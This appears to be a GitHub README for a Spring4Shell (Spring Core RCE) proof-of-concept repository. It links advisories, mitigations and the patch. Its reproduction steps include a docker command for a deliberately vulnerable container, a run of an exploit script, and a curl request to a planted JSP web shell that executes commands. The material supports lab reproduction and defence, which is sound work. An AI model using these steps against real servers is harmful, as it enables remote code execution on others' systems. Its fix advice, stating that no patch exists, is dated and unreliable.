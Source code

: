 # Information

https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement

https://www.rapid7.com/blog/post/2022/03/30/spring4shell-zero-day-vulnerability-in-spring-framework/?s=03

# How to reproduce
docker run -d -p 8082:8080 --name springrce -it vulfocus/spring-core-rce-2022-03-29

python3 ./exp.py --url http://192.168.0.11:8082

curl --output - "http://192.168.0.11:8082/tomcatwar.jsp?pwd=j&cmd=id"

![vulnerable code + poc](images/exploit.jpg)

# Mitigations
https://github.com/blindpirate/spring-rce-2022-03-hotfix (untested)

https://www.praetorian.com/blog/spring-core-jdk9-rce/

# Spring Core RCE

> After Spring Cloud, on 3.29, another major Spring vulnerability was reported online: Spring Core RCE

(Note from craig: Spring Cloud exploit here: https://github.com/hktalent/spring-spel-0day-poc)

## coded poc in circulation
** currently exp has been uploaded ``exp.py`` **
![circulating coded poc](images/poc.png)
![awkward situation](images/img_1.png)

## The official Spring patch is also in active production  
[Link to patches in production for Spring](https://github.com/spring-projects/spring-framework/commit/7f7fb58dd0dae86d22268a4b59ac7c72a6c22529)

## The vulnerability affects
1. jdk version 9 and above
2. using Spring Framework or derivative frameworks
## Vulnerability Fix Recommendations
Currently, Spring has not released a patch, so we recommend lowering the jdk version as a temporary solution.

Translated with www.DeepL.com/Translator (free version)
